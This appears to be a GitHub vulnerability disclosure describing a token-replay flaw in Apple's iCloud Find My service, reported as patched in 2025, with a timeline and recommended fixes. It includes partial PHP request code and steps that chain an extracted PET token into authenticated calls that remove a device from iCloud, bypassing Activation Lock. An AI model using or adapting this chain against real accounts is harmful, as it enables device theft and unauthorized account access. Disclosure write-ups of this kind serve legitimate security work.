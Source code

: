 # iCloud PET Token Vulnerability — Unauthorized Device Removal via Find My (Apple)

> - Reported to Apple: **March 23, 2024**  
> - Patched: **July 13, 2025** (iOS 18.5)  
> - Apple Report ID: `OE1972926887515`  
> - CVE ID: _Pending (submitted via MITRE, July 19, 2025)_

---

## Summary

This repository documents a critical vulnerability in Apple’s iCloud Find My backend that allowed unauthorized users to:

- Extract a valid **PET (Personal Entitlement Token)** from an iOS backup or proxy request.
- Use that token to impersonate the account holder against Apple’s internal device APIs.
- Remotely **remove iCloud-linked devices** by bypassing authentication and Activation Lock protections.

---

## Proof of Concept (shared privately with Apple)

1. **Extracting PET using `idevicebackup`:**  
   📹 [GETPETANDREFRESHCLIENT.MOV](https://www.mediafire.com/file/wgazlo2it9gijom/GETPETANDREFRESHCLIENT.MOV/file)

2. **Using PET to retrieve `authToken` via `authForUserDevice`:**  
   📹 [GETauthForUserDevice.MOV](https://www.mediafire.com/file/cwo2v6iyto5hrgr/GETauthForUserDevice.MOV/file)

3. **Calling `remove` endpoint to disassociate the device from iCloud:**  
   📹 [REMOVE_ICLOUD.mov](https://www.mediafire.com/file/rlwdo8yay6d5wtl/REMOVE_ICLOUD.mov/file)

---

## ⏳ Disclosure Timeline

- **2024-03-23**: Vulnerability reported to Apple Security.
- **2025-07-13**: Patch released in iOS 18.5.
- **2025-07-18**: Report acknowledged and closed by Apple.
- **2025-07-19**: CVE request submitted to MITRE.

Although over a year passed without feedback, the issue was ultimately patched and confirmed after follow-up.

---

## Technical Overview

The vulnerability was found in Apple’s Find My Device service endpoints hosted at:

- `https://fmipmobile.icloud.com/fmipservice/device/initClient`
- `https://fmipmobile.icloud.com/fmipservice/device/refreshClient`
- `https://fmipmobile.icloud.com/fmipservice/device/authForUserDevice`
- `https://fmipmobile.icloud.com/fmipservice/device/remove`

These APIs accepted PET tokens extracted from local backups or proxy interception, without enforcing proper expiration, uniqueness, or origin verification.

---

## ✅ Solution (recommended and adopted)

As part of my disclosure, I explicitly recommended:

- Enforcing a **unique PET per session**, scoped to the **FindMyApp context**, generated by **GSA (General Service Authorization)**.
- Limiting PET validity to **2 minutes** to prevent token replay from backups or unauthorized clients.
- Binding the token to client-specific metadata to prevent cross-context abuse.

These recommendations were implemented by Apple in their July 2025 security update.

---

## 💻 Partial Proof of Concept (Reference Code)

The following examples show critical parts of the vulnerability chain.

### initClient Request

```php
$auth = base64_encode($email . ":" . $PET);
$headers = [
   'Authorization: Basic ' . $auth,
   'Proxy-Connection: keep-alive',
   'Accept-Language: en-us',
   'Content-Type: application/json; charset=utf-8',
   'X-Apple-Find-API-Ver: 3.0',
   'Connection: keep-alive',
   'X-Apple-OAuth-Client-Type: firstPartyAuth',
   'X-Apple-AuthScheme: Forever',
   'X-MMe-Client-Info: <iPhone9,3> <iPhone OS;13.3.1;13G36> <com.apple.AppleAccount/1.0 (com.apple.Preferences/181.1)'
];
$body = json_encode([
    "clientContext" => [ /* valid device info */ ],
    "serverContext" => new stdClass()
]);
$response = curl_post("https://fmipmobile.icloud.com/fmipservice/device/initClient", $headers, $body);
```

###  authForUserDevice Using PET

```php


$payload = [
    "authToken" => $petToken,
    "device" => $deviceId,
    "clientContext" => [ /* cloned device metadata */ ],
    "serverContext" => [ "authToken" => $initAuthToken, "prsId" => $prsId ]
];
$response = curl_post("https://fmipmobile.icloud.com/fmipservice/device/$prsId/authForUserDevice", $headers, json_encode($payload));
```

###  removeDevice Endpoint

```php


$headers = [
    "Authorization: Basic " . base64_encode("$prsId:$initAuthToken"),
    "X-Apple-Command-AuthToken: $commandAuthToken",
    "Content-Type: application/json"
];
$response = curl_post("https://fmipmobile.icloud.com/fmipservice/device/remove", $headers, json_encode(["device" => $deviceId]));
```

## Responsible Disclosure

This vulnerability was reported to Apple via the official [Security Bounty Program](https://support.apple.com/en-us/102774), under tracking ID `OE1972926887515`.

All proof-of-concept material was shared privately and in accordance with Apple’s disclosure guidelines.  
A CVE ID has been requested through MITRE and is pending publication.

---

## Author

**Gerson Aldaz**  
Security Researcher  
📧 aldazactivator@gmail.com  
🌐 GitHub: [github.com/AldazActivator](https://github.com/AldazActivator)

---

## 📄 License

This documentation is released under the [MIT License](LICENSE).

> This disclosure is for educational and transparency purposes only, in support of better industry-wide security practices.

